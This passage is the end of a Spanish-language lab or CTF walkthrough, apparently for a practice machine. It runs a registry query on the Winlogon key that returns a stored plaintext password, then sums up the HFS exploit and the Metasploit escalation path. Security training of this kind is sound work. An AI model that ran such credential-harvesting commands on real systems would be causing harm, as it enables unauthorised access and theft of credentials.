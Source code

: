 ```bash
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

Resultado:

![](../img/57ddb6a4a3c7bdf37b5e0b4325272fb8.png)

```bash
DefaultPassword    REG_SZ    kdeEjDowkS*
```

💡 Hemos recuperado la contraseña de `kostas`, en texto plano, desde el Registro de Windows.

## 📌 Conclusiones

- ✅ La máquina tiene una vulnerabilidad crítica no autenticada en HFS.
    
- 🧠 Usar Metasploit agiliza el proceso, ideal para entornos de práctica.
    
- 📥 El módulo `local_exploit_suggester` ayuda a encontrar rutas de escalada.
    
- 🔑 El sistema guarda credenciales sensibles sin cifrar en el registro.


